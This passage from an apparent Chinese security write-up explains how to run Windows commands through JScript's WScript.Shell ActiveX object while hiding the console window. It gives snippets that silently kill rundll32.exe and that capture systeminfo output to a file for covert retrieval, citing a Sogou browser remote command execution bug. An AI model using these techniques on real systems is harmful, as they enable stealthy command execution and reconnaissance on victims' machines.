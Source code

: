 综上，解决思路是对输入的内容做判断，如果是cmd命令，使用exec方法；如果是执行exe，使用run方法

**5、解决使用run方法执行命令会弹黑框的问题**

参考资料：  
[https://msdn.microsoft.com/zh-cn/library/d5fk67ky(en-us,VS.85).aspx](https://msdn.microsoft.com/zh-cn/library/d5fk67ky(en-us,VS.85).aspx)

如图

![Alt text](http://drops.javaweb.org/uploads/images/91683678abc88bb8a22deb96c076b5aa8faaf4b6.jpg)

run方法其实后面还可以加参数指示该窗口能否被看见

所以在执行比如taskkill的命令就可以使用

```
new ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true)

```

避免弹出黑框

> 注：  
> `intWindowStyle`参数的说明中提到“Note that not all programs make use of this information.”  
> 例子之一就是用run方法来执行systeminfo这种需要等待的cmd命令是无法隐藏窗口的

**6、如何隐蔽执行systeminfo并获取回显**

参考了如下资料：  
[WooYun: 搜狗浏览器远程命令执行之五](http://drops.com:8000/%3Ca%20target=)">[WooYun: 搜狗浏览器远程命令执行之五](http://www.wooyun.org/bugs/wooyun-2015-097380)

如果使用exec方法，虽然可以获取到回显，但是利用window.moveTo(-1000,-1000)无法移动弹出的黑框

而使用run方法虽然可以移动弹出的黑框，但是无法获得回显

综合这两种方法，最后我们只能退而求其次，使用run方法将执行命令回显的结果输出到文件中，然后再通过读取文件来获取结果

具体实现如下：

(1)使用run方法将systeminfo回显的结果输出到文件中c\test\a.txt

示例代码：

```
new ActiveXObject("WScript.Shell").Run("cmd /c systeminfo >>c\test\a.txt",0,true)

```

(2)读取文件并回传

示例代码：

```
fso1=new ActiveXObject("Scripting.FileSystemObject");
f=fso1.OpenTextFile(d,1);
g=f.ReadAll();
f.Close();

```
